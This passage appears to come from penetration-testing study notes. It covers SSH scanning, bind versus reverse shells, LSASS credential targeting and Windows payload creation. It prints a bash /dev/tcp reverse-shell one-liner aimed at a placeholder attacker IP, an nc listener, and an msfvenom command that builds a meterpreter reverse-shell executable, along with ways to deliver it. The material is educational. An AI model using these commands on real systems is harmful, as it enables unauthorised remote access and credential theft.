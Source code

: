 ### 🧪 SSH Port Scanning:
```bash
nmap -sV -p22 <target-ip>     # Scan SSH
nc <target-ip> 22             # Banner grabbing
```

---

## 💥 Shells – Bind vs Reverse Shell

| Feature        | Bind Shell                         | Reverse Shell                          |
|----------------|-------------------------------------|-----------------------------------------|
| Connection     | Victim opens port & waits           | Victim connects to attacker             |
| Firewall       | Often blocked by NAT/firewalls      | More likely to succeed                  |
| Attacker Role  | Initiates connection                | Listens for incoming from victim        |

### 🔁 Reverse Shell Example:
```bash
# On attacker machine
nc -lvp 4444

# On victim machine (Linux)
bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
```

---

## 🧠 LSASS – Local Security Authority Subsystem Service

**LSASS** is a Windows service responsible for:
- Enforcing security policies
- Storing password hashes
- Handling authentication

> Attackers target LSASS to extract password hashes from memory using tools like Mimikatz.

---

## 🧨 Windows Payload Creation (Theory)

### 🔧 Example Tools:
- **msfvenom** (from Metasploit)
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f exe > payload.exe
```

- Deliver using:
  - USB
  - Email
  - Download + execute via vulnerability
